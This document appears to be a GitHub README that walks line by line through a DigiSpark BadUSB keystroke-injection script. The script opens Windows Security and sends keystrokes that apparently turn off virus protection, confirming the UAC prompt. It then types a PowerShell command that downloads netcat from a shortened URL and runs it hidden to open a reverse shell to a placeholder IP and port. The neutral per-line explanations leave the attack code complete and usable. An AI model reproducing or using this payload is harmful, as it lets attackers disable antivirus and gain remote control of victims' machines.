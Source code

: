 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<h2><code color="#00979C">#include "DigiKeyboard.h"</code></h2>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
  
<em>```This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em>```This line introduces a delay of 1000 milliseconds (1 second) in the program execution.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em>```This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```Another delay of 1000 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em>```The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Enter key.```<em>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em>```A delay of 5000 milliseconds (5 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em>```The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Yet another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>``` Another delay of 700 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Space key.```<em>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em>```A delay of 2000 milliseconds (2 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```A delay of 1000 milliseconds (1 second) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em>```The print() function is used to simulate typing the provided string, which contains a PowerShell command.```<em>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the Enter key.```<em>

<code color="#00979C">void loop(){}</code>
<em>```This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.```<em>
```<em>



